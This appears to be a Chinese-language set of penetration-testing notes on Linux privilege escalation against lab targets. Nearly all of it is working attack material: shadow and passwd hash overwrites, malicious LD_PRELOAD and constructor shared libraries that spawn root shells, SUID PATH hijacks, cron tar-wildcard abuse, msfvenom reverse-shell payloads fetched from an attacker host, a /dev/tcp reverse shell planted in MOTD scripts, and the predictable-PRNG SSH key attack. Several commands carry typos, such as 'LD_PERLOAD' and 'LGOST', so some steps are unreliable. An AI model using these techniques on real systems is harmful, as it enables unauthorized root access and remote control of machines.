## 可读 shadow 文件利用提权


```bash
cat /etc/shadow

cat /etc/shadow | grep ':\$'		#提取

john破解

```


## 可写 shadow 文件利用提权


将 shadow 的密码修改成自己的

```bash
ls -liah /etc/shadow		# 查看shadow权限是否可写
cp /etc/shadow /tmp/shadow.bak 		# 留存一份

cat /etc/shadow		#查看密码
hash-identifier			#识别密码的加密算法（会有误报）	
# linux：$1开头的加密算法为：md5；$5开头的加密算法为：SHA-256；$6开头的加密算法为：SHA-512

mkpasswd -m sha-512  123456			#生成自定义密码
$6$Lid/xm1LZzVYKuTj$O/L/d/SMOIHOImqqMY4/kydl.DWM3lgxBrcPGK185a96xTNLRt39XEcawDRxxYUz9VWYdZDoOLjdpcufgvQ611

把生成的密码替换shadow的root密码就好了

```


## 可写 passwd 文件利用提权


```bash
ls -liah /etc/passwd		# passwd可写
cat /etc/passwd
```



直接构造 x

```bash
cp /etc/passwd /tmp/passwd.bak		#存档！

openssl passwd 123456
$1$ONOCKRx9$3cr2QuzM0INBeuBjRZ69k.		
将生成的密码替代passwd中的x
```


## sudo 环境变量提权


```bash
sudo -l
```



env_reset：重置环境变量，linux 的一条安全属性

env_keep+=LD_PRELOAD：在保持原有环境变量的同时，增加动态连接器（linker  dynamic）预加载共享库功能**（利用点）**


写一个 恶意 共享库

```c
#include <stdio.h>
#include <sys/type.h> 
#include <stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}


```


```bash
#编译
gcc -fPIC -shared -o shell.so shell.c -nostartfiles			#生成shell.so文件
ls
sudo -l #查看哪些命令不需要passwd就可以sudo直接执行
sudo LD_PERLOAD=/shell.so <sudo可以直接运行的命令>			#其实与<sudo可以直接运行的命令>无关，因为在LD预加载的时候就已经重新启动一个bash了 
成功
```


## 自动任务文件权限提权
查看自动任务，设置自定义自动任务的 path 在原始 path 之前，达到提权。


```bash
cat /etc/crontab		# 看自动任务
```



```bash
locate overwrite.sh
/usr/local/bin/overwrite.sh
```

在/home/user/ 目录下创建文件

```bash
vim overwrite.sh

#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash

```

```bash
chmod +x overwrite.sh
/tmp/rootbash -p
```


## 自动任务通配符提权


```shell
cat /etc/crontab		# 看自动任务
```




使用 tar 命令的 checkpoint 提权


```shell
#构造反弹shell
sudo msfvenom -p linux/x64/shell_reverse_tcp LGOST=[kali_ip] LPORT=4444 -f elf -o shell.elf
```



```shell
# 架设一个web服务
sudo php -S 0:80
sudo nc -lvnp 444		#开启监听
```


```shell
wget http://kali_ip/shell.elf				# 靶机下载
chmod +xs shell.elf									# 赋予权限

/home/user目录下：
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```


成功


## SUID 可执行文件已知利用提权
SUID 的作用：当用户执行此类文件时，程序会以文件所有者的权限运行（例如所有者是 root 时，普通用户执行该程序会临时获得 root 权限）


```shell
find / -perm -u=s -type f 2>/dev/null

从根目录开始递归所有子目录
-perm -u=s 匹配设置了suid位的文件（即所有者的执行权限是s而非x）
-type f  搜索普通文件
2>/dev/null  丢弃所有报错
```

关注：**/usr/sbin/exim-version**

```shell
searchsploit exim -m			# 下载exp
sudo php -S 0:80
```


```shell
wget http://kali_ip/exp.sh
```

```shell
chmod +x exp.sh
./exp.sh
提权成功
```


## SUID 共享库注入提权


```shell
find / -perm -u=s -type f 2>/dev/null
```

关注：**/usr/loacl/bin/suid-so**


```shell
strace /usr/loacal/bin/suid-so 2>&1			# strace是linux下的一个调试工具，用于追踪进程的系统调用和信号
```



发现有一个报错是找不到/home/user/.config/libcalc.so 文件。

那么我们在这个路径下就可以创建一个 libcalc.so 文件

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
}

```


```bash
gcc -shared -fPIC -o libcalc.so libcalc.c
/usr/local/bin/suid-so
提权成功
```


## SUID 环境变量利用提权
```bash
find / -perm -u=s -type f 2>/dev/null
```

关注：**/usr/local/bin/suid-env**


```bash
/usr/local/bin/suid-env
strings /usr/loacl/bin/suid-env		#搜索字符串
```



service 在编译的时候没有指定路径，说明去 path 中查找

```c
#include<stdio.h>
#include<stdlib.h>

void main(){
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
    
}
```

```bash
gcc -o service service.c

#指定路径
echo $PATH
export PATH=.:$PATH		#把当前路径设置为path的头部
/usr/local/bin/suid-env
成功 
```


## 巧用 SUID-shell 功能提权


```bash
find / -perm -u=s -type f 2>/dev/null
strings /usr/local/bin/suid-env2
```

关注：**/usr/sbin/service apache2 start**


### 方法一：
```bash
bash --version  			

# 查看bash版本，当bash版本小于4.2的时候，可以在bash中定义函数，用路径的组合做文件名
```

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
成功
```


### 方法二：


```bash

# 先设置环境变量，再运行程序
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash;chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
成功
```


## 密码和密钥历史文件提权
查看历史命令，会泄露一些密码，就比如 mysql 登录的密码等


```bash
# 查看历史命令
history
cat ~/.*history | less 
```


```bash
查看.viminfo
```


## 密码和密钥配置文件查看提权
```bash
ls -liah 
详细查看配置文件，网站，可能连接到配置文件的信息
```




## SSH 密钥敏感信息提权
```bash
ls -liah
cd /
# 查看ssh
cd ssh
cat root_key
```



 


## NFS 提权
Network File System 是一种共享文件模式




```bash
mkdir /tmp/nfs
mount -o rw,vers=3 靶机_ip:/tmp /tmp/nfs
```



```bash
cd /tmp
cd nfs
ls
```




```bash
# 生成反弹shell
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

chmod +xs shell.elf
```


```bash
cd /tmp
ls
./shell.elf
成功
```


## 内核利用提权


```bash
uname -a			# 查看内核版本
搜集该版本的漏洞

```


使用 linpeas.sh 对内核进行扫描（**peass-ng 项目**）

```bash
wget https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS			# 提权脚本神器
sudo nc -lvnp 80 < linpeas.sh
```


```bash
cat < /dev/tcp/kali_ip/80 | sh				# 获取linpeas脚本并开始扫描

根据扫描结果进行渗透
```


## doas less + vi 提权


```bash
find / -group user -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```

关注：**/etc/doas.conf**



看这个使用用法

```bash
doas /usr/bin/less /var/log/authlog
```

进入日志界面



键盘摁  V，进入编辑状态。

esc -> :!sh 

成功


## 利用 MOTD 机制提权
motd 是全局性的，而且是脚本执行性质的

```bash
cd /etc/update-motd.d			# message of the dat
ls
cat 00-header
vim 00-header
# 将以下内容追加到最后一行
bash -c "bash -i >& /dev/tcp/kali_ip/4444 0>&1"

```


```bash
sudo nc -lvnp 4444
sudo ssh 普通用户@靶机ip		#输入普通用户的密码即可解锁root权限
成功
```


## 可预测 PRNG 暴力破解 SSH 提权
如何把公钥利用起来（公钥在服务器中，私钥在管理员手中）

prng：pseudo random number generator


情景：目前拿到了 ssh 的公钥，但是没有私钥，如果我们可以有私钥的话就可以登录这台靶机。

```bash
sudo perl 2017.pl 10.10.10.25 10000 /home/vmware/.ssh/authorized_keys 0
```

```bash
search prng
```



使用 5622.txt

```bash
# 根据txt教程

wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2
sudo tar -vjxf 5622.tar.bz2
```



搜索公钥中与靶机公钥同名的文件，然后再对应私钥，就可以破解

```bash
cd /rsa/2048
sudo grep -lr "靶机中的部分公钥"			# 该操作会在2048文件夹下进行一一对比，可以拿到***.pub文件

# 本质上还是更加系统性的枚举对比，要严谨，如果没有结果也是正常的；要多尝试几个用户，一个用户不行就换一个用户，总有能行的!
```


```bash
# abc代表刚才拿到的私钥文件
sudo cp abc ../../
sudo ssh -i abc 普通用户@靶机ip		# 看输出的报错内容，很重要! 可以进行调试


调试过程：

# 没有匹配的主键类型
sudo ssh -i abc 普通用户@靶机ip -oHostKeyAlgorithms=ssh-rsa,ssh-dss
sudo ssh -i abc 普通用户@靶机ip -oHostKeyAlgorithms=ssh-rsa,ssh-dss -vv		# 可以查看连接过程的详细调试过程！
# 若报错没有共同签名的支持，需要继续完善参数
sudo ssh -i abc 普通用户@靶机ip -oHostKeyAlgorithms=ssh-rsa,ssh-dsa -oPubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss
```


